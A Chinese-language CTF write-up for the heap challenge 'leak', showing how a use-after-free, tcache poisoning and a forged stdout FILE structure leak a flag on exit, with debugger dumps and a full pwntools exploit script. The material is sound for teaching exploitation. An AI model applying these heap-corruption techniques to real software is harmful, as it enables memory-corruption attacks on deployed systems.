









# leak  
参考了xia0ji233师傅的WP https://www.52pojie.cn/thread-1705930-1-1.html，复现了好久做出来了（其实现在还是有点一知半解）。  
首先需要注意此题libc版本为2.27 1.6，此版本的tcache中会有双指针，而如果是2.27 1.4则没有双指针。 
保护全开，而且没有show函数。  
但是会把flag读取到一个堆块中，要想办法打印出来。  
  
将stdout结构体修改后可以在调用puts或者printf时输出指定内容，然而这道题里没有这两个函数，但是程序在exit时会将剩余内容输出（貌似是这个机制）。  
我们希望得到的stdout是类似这样的结构。
  
```
pwndbg> p/x *stdout
$1 = {
  _flags = 0xfbad1800,
  _IO_read_ptr = 0x0,   /* Current read pointer */
  _IO_read_end = 0x0,   /* End of get area. */
  _IO_read_base = 0x0,  /* Start of putback+get area. */
  _IO_write_base = 0x5632f5c5f250,  /* Start of put area. */
  _IO_write_ptr = 0x5fffffffffff,   /* Current put pointer. */
  _IO_write_end = 0x0,  /* End of put area. */
  _IO_buf_base = 0x0,   /* Start of reserve area. */
  _IO_buf_end = 0x0,    /* End of reserve area. */
  _IO_save_base = 0x0,  
  _IO_backup_base = 0x0,    
  _IO_save_end = 0x0,
  _markers = 0x0,
  _chain = 0x7f8499deba00,
  _fileno = 0x1,
  _flags2 = 0x0,
  _old_offset = 0xffffffffffffffff,
  _cur_column = 0x0,
  _vtable_offset = 0x0,
  _shortbuf = {0x0},
  _lock = 0x7f8499ded8c0,
  _offset = 0xffffffffffffffff,
  _codecvt = 0x0,
  _wide_data = 0x7f8499deb8c0,
  _freeres_list = 0x0,
  _freeres_buf = 0x0,
  __pad5 = 0x0,
  _mode = 0x0,
  _unused2 = {0x0 <repeats 20 times>}
}
```
需要将flag改为0xfbad1800，_IO_write_base改为读取内容起始位置，_IO_write_ptr为读取终止位置。  
修改完成功程序运行到exit时便会从_IO_write_base开始逐个字节输出直到_IO_write_ptr或者打印到不可打印区域停止。  
## 题目分析
  
  
  
  
发现free后没有清空，存在UAF，上面说了是2.27 1.6的版本，可以先从unsortbin中获得libc地址，用tcache投毒在stdout结构体内开辟堆。  
为了得到unsortedbin首先需要填满tcache，这里构造了两个0xc0互刷，再构造两个0x60的chunk3和4，此时chunk1覆盖chunk3和chunk4，使chunk4的size可以被随意修改。  
```
    add(0,0xb0)
    add(1,0xb0)
    add(2,0x50)
    add(14,0xb0)
    add(15,0x200)
    for i in range(3):
        free(0)
        edit(0,p64(0)*2)
        free(1)
        edit(1,p64(0)*2)
    free(0)
    free(1)
    add(3,0x50)
    add(4,0x50)
```
```
0x5618e48143a0: 0x00005618e51052a0 0xb0 0x00005618e5105360 0xb0
0x5618e48143b0: 0x00005618e5105420 0x50 0x00005618e5105360 0x50
0x5618e48143c0: 0x00005618e51053c0 0x50 0x0000000000000000
0x5618e48143d0: 0x0000000000000000      0x0000000000000000
0x5618e48143e0: 0x0000000000000000      0x0000000000000000
0x5618e48143f0: 0x0000000000000000      0x0000000000000000
0x5618e4814400: 0x0000000000000000      0x0000000000000000
0x5618e4814410: 0x00005618e5105480 0xb0 0x00005618e5105540
```
  

将libc的低字节改成0x7c60，即stdout的地址，申请两次大小为0xc0的堆块就能实现tcache投毒。  
```
    edit(1,b'\x60\xc7')
    add(5,0xb0)
    add(6,0xb0)
    add(7,0xb0)
```
```
0x5618e48143a0: 0x00005618e51052a0 0xb0 0x00005618e5105360 0xb0
0x5618e48143b0: 0x00005618e5105420 0x50 0x00005618e5105360 0x50
0x5618e48143c0: 0x00005618e51053c0 0x50 0x00005618e51052a0 0xb0
0x5618e48143d0: 0x00005618e5105360 0xb0 0x00007f806f1ec760 0xb0
0x5618e48143e0: 0x0000000000000000      0x0000000000000000
0x5618e48143f0: 0x0000000000000000      0x0000000000000000
0x5618e4814400: 0x0000000000000000      0x0000000000000000
0x5618e4814410: 0x00005618e5105480 0xb0 0x00005618e5105540
```
  
由于还需要将一个堆地址放进stdout，接下来选择fastbin结合tcache进行攻击将堆地址放进对应位置。首先需要重新把tcache填充满，并得到一个fastbin。  
```
   free(0)
    edit(0,p64(0)*2)
    free(14)
    edit(14,p64(0)*2)
    free(0)
    edit(0,p64(0)*2)
    for i in range(3):
        free(2)
        edit(2,p64(0)*2)
        free(4)
        edit(4,p64(0)*2)
    free(2)
    edit(2,p64(0)*2)
    free(4)
```
  
先想办法让fastbin的fd指针变成libc地址，把他对应的堆放进unsortedbin就行，利用上面所说的，编辑chunk1更改chunk4的size。  
```
    edit(1,p64(0)*11+p64(0xc1))
    free(4)
```
  
需要利用到这样一个机制，当发现tcache没满并且存在fastbin时，会把fastbin放进tcache中，这个过程中会把堆地址放进fd对应的堆块中（这个过程其实还是没搞明白，还是得看源码，鼠鼠太菜了看不懂wuwuwu）。  
```
    edit(1,p64(0)*11+p64(0x61))
    edit(4,b'\x68\xc7')
    edit(7,p64(0xfbad1800)+p64(0)*4+p64(0x5fffffffffff))
    add(8,0x50)#从tcache中取出一个，这时候tcache不满了
    add(9,0x50)
```
之后只要退出程序就行，会输出来一大堆东西，可以再改一下让_IO_write_base接近flag的位置，只要输出前几个字符就行了，这题需要爆破半个字节。  
  
完成exp：
```
from pwn import * 
# context.log_level = 'debug' 

def add(index,size):
    p.recvuntil(b'6. exit\n')
    p.recvuntil(b'Your choice: ')
    p.sendline(b'1')
    p.recvuntil(b'Index: ')
    p.sendline(str(index).encode())
    p.recvuntil(b'Size: ')
    p.sendline(str(size).encode())
def edit(index,content):
    p.recvuntil(b'6. exit\n')
    p.recvuntil(b'Your choice: ')
    p.sendline(b'2')
    p.recvuntil(b'Index: ')
    p.sendline(str(index).encode())
    p.recvuntil(b'Content: ')
    p.send(content)
def free(index):
    p.recvuntil(b'6. exit\n')
    p.recvuntil(b'Your choice: ')
    p.sendline(b'3')
    p.recvuntil(b'Index: ')
    p.sendline(str(index).encode())
def exit():
    p.recvuntil(b'6. exit\n')
    p.recvuntil(b'Your choice: ')
    p.sendline(b'6')
time=0
while 1:
    time=time+1
    print("try time:",time)
    p=process('./leak')
    elf=ELF('./leak')
    p.recvuntil(b'set up.\n')
    add(0,0xb0)
    add(1,0xb0)
    add(2,0x50)
    add(14,0xb0)
    add(15,0x200)
    for i in range(3):
        free(0)
        edit(0,p64(0)*2)
        free(1)
        edit(1,p64(0)*2)
    free(0)
    free(1)
    add(3,0x50)
    add(4,0x50)
    # gdb.attach(p)
    edit(1,b'\x60\xc7')
    add(5,0xb0)
    add(6,0xb0)
    add(7,0xb0)
    # pause()
    free(0)
    edit(0,p64(0)*2)
    free(14)
    edit(14,p64(0)*2)
    free(0)
    edit(0,p64(0)*2)
    for i in range(3):
        free(2)
        edit(2,p64(0)*2)
        free(4)
        edit(4,p64(0)*2)
    free(2)
    edit(2,p64(0)*2)
    free(4)
    # pause()
    edit(1,p64(0)*11+p64(0xc1))
    free(4)
    # pause()
    edit(1,p64(0)*11+p64(0x61))
    edit(4,b'\x68\xc7')
    edit(7,p64(0xfbad1800)+p64(0)*4+p64(0x5fffffffffff))
    add(8,0x50)
    add(9,0x50)
    # pause()
    # gdb.attach(p)

    edit(7,p64(0xfbad1800)+p64(0)*3+b'\x50\xf2')
    exit()
    recvthing=p.recv(100)
    if b'flag' in recvthing:
        print('flag:[',recvthing,']')
        break

```